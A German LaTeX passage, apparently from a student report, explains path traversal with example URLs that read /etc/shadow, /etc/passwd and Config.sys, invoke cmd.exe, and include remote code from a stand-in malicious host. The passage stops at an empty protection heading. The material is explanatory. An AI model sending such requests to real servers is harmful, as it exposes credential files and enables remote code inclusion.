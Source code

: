\subsection{Grundprinzip}
\label{sec:PT_GP}
Man sollte nicht auf Dateien, die sich außerhalb vom Web-Directory befinden, von einem Webserver zugreifen können. Beim Path-Traversal versucht man als Angreifer durch beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. 
//
Man benutzt ../ als Parameter zum Wechseln des Verzeichnisses.
\subsection{Beispiele}
\label{sec:PT_BSP}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele kann man sehen, das einem diese Schwäche ermöglicht lokale Passwörter auszulesen und Windows Configs.  
\\
Unter Linux ist diese Schwäche kritischer da man hier auf die komplette Festplatte Zugriff bekommt. In Windows kann man sich nur im lokalen Directory bewegen, wo sich die Website befindet.
\\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese code einzufügen mit dem man sich noch mehr Möglichkeiten verschafft. \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}\\
\textcite{Path-Trav}
\subsection{Protection Path-Traversal}
\label{sec:PPT}
